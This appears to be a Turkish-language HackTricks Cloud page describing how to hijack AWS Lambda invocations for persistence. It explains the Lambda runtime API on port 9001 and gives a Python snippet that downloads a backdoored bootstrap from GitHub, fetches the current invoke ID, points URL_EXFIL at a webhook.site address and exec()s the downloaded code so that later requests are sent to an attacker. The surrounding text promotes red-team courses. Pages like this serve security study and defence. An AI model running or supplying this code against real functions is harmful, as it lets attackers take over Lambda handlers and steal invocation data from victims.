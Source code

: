 # AWS - Lambda İsteklerini Çalma

<details>

<summary><strong>AWS hackleme konusunda sıfırdan kahramana kadar öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na göz atın (https://github.com/sponsors/carlospolop)!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin**.
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

## Lambda Akışı

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**, **invokasyonları** **init** işlemine **gönderen** bir konteyner dışı işlemdir.
2. Init işlemi, ilginç uç noktaları açığa çıkaran **9001** numaralı bağlantı noktasını dinler:
* **`/2018-06-01/runtime/invocation/next`** – bir sonraki invokasyon etkinliğini al
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – invokasyon için işleyici yanıtını döndür
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – bir yürütme hatası döndür
3. **bootstrap.py**, init işleminden invokasyonları alan ve bunları işlemek için kullanıcı kodunu çağıran bir döngüye sahiptir (**`/next`**).
4. Son olarak, **bootstrap.py**, **yanıtı** init'e gönderir

Bootstrap'un kullanıcı kodunu bir modül olarak yüklediğini unutmayın, bu nedenle kullanıcı kodu tarafından gerçekleştirilen herhangi bir kod yürütme aslında bu işlemde gerçekleşmektedir.

## Lambda İsteklerini Çalma

Bu saldırının amacı, kullanıcı kodunu, zayıf isteği işleyen **`bootstrap.py`** işlemi içinde kötü niyetli bir **`bootstrap.py`** işlemi yürütmeye zorlamaktır. Bu şekilde, **kötü niyetli bootstrap** işlemi, istekleri işlemek için **init işlemiyle konuşmaya başlayacak** ve **meşru** bootstrap, kötü niyetli olanı çalıştırırken **tuzakta** kalacak, bu nedenle init işleminden istekler istemeyecektir.&#x20;

Bu, kullanıcı kodunun meşru **`bootstrap.py`** işlemi tarafından yürütüldüğü için kolayca başarılabilir bir görevdir. Bu nedenle saldırgan:

* **Mevcut invokasyonun sahte sonucunu init işlemine gönderir**, böylece init, bootstrap işleminin daha fazla invokasyon beklediğini düşünür.
* Bir istek, **`/${invoke-id}/response`**'a gönderilmelidir.&#x20;
* invoke-id, meşru **`bootstrap.py`** işleminin yığınından [**inspect**](https://docs.python.org/3/library/inspect.html) python modülünü kullanarak (şurada önerildiği gibi) (https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py) veya sadece tekrar **`/2018-06-01/runtime/invocation/next`**'e istek göndererek (şurada önerildiği gibi) (https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py) alınabilir.
* Bir kötü niyetli **`boostrap.py`** yürütün, bu işlem bir sonraki invokasyonları işleyecektir
* Gizlilik amaçlarıyla lambda invokasyon parametreleri bir saldırganın kontrol ettiği C2'ye gönderilebilir ve ardından istekleri normal şekilde işleyebilir.
* Bu saldırı için, mevcut lambda invokasyonundan **`bootstrap.py`**'ın orijinal kodunu almak yeterlidir ve kötü niyetli kodu ekleyip mevcut lambda invokasyonundan çalıştırmaktır.

### Saldırı Adımları

1. Bir **Uzaktan Kod Yürütme (RCE)** zafiyeti bulun.
2. Bir **kötü niyetli** **bootstrap** oluşturun (örneğin [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Kötü niyetli** bootstrap'u **yürütün**.

Bu adımları kolayca gerçekleştirebilirsiniz.
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Get invocation id
resp = http.request("GET", "127.0.0.1:9001/2018-06-01/runtime/invocation/next")
invoke_id = resp.headers["Lambda-Runtime-Aws-Request-Id"]

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Daha fazla bilgi için [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Referanslar

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahraman seviyesine öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'da takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
